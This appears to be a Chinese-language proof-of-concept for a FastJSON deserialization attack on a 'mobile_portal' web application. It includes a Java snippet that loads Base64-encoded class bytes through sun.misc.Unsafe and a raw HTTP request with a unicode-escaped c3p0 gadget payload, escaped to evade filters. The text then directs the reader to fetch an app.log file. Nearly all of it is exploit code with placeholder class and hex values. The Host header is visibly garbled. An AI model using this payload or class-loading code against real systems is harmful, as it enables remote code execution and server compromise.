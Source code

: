 ```bash
String str = "xxxxx";
byte[] bytes = Base64.getDecoder().decode(str);
Field theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
Unsafe unsafe = (Unsafe)theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bytes, null).newInstance();
```

## POC

[https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw](https://mp.weixin.qq.com/s/9TsQhLcTSVDYW3usG1j5Xw)

对于 unicode 字符，FastJSON 会自动处理解析的

```bash
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```

然后再 Get 访问`/mobile_portal/api/systemLog/pns/loadLog/app.log`
